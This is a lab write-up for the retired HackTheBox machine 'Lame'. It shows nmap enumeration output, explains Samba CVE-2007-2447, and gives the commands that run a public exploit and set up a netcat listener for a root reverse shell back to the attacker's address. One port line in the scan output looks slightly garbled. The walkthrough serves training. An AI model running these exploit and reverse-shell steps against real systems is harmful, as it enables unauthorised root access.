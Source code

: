 +++
title = 'HackTheBox - Lame'
date = 2023-09-15T17:03:12+02:00
draft = false
tags = 'htb-easy' 'tj_null'
+++

**Lame** is a beginner level machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement.

# Info


    OS - Linux
    Difficulty - Easy
    Points - /
    Release - 14 Mar, 2017
    IP - 10.10.10.3

# Enumeration

## Nmap Scan

**`nmap -sC -sV -Pn 10.10.10.3`**

```Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-15 17:13 CEST
Nmap scan report for lame.htb (10.10.10.3)
Host is up (0.055s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  Q5V      Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m33s, deviation: 2h49m44s, median: 31s
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-09-15T11:14:12-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

## Service Observation

Here we can't see any open HTTP or HTTPS ports, but what we can see is open ftp, ssh and samba ports, after the research about services and their versions we can see that Samba on port 139 is vulnerable (CVE-2007-2447).

## More about CVE-2007-2447
To exploit this vulnerability, an attacker would send a specially crafted request to the Samba server, taking advantage of the username map script feature. By doing so, they could execute arbitrary code with the privileges of the Samba server process, potentially gaining control over the server.

# Exploitation

To exploit this vulnerability we found we are gonna use publicly available exploit:
https://github.com/amriunix/CVE-2007-2447

First what we are gonna do is install this tool and read the usage commands!

```
python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>
```

- `RHOST` -- The target address
- `RPORT` -- The target port (TCP : 139)
- `LHOST` -- The listen address
- `LPORT` -- The listen port

In this specific scenario:
**RHOST** = `10.10.10.3`
**RPORT** = `139`
Now we will get the lhost by running the command `ifconfig` 
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet ***10.10.14.5***  netmask 255.255.254.0  destination 10.10.14.5

So in this scenario
**LHOST** = `10.10.14.5`
**LPORT** = (we can choose the port we want, in this case i choose 1234) = `1234`

so the command would be 
## Running the exploit
```
python usermap_script.py 10.10.10.3 139 10.10.14.5 1234
```

Before running the command we will run *netcat* listener on port **1234** like this:

```
nc -lvnp 1234
```
##PoC
After running the exploit we will get the *reverse shell* as **root**

![Minion](https://github.com/pepax3/pepax3.github.io/blob/main/content/posts/HackTheBox%20-%20Lame/PoC.png?raw=true)




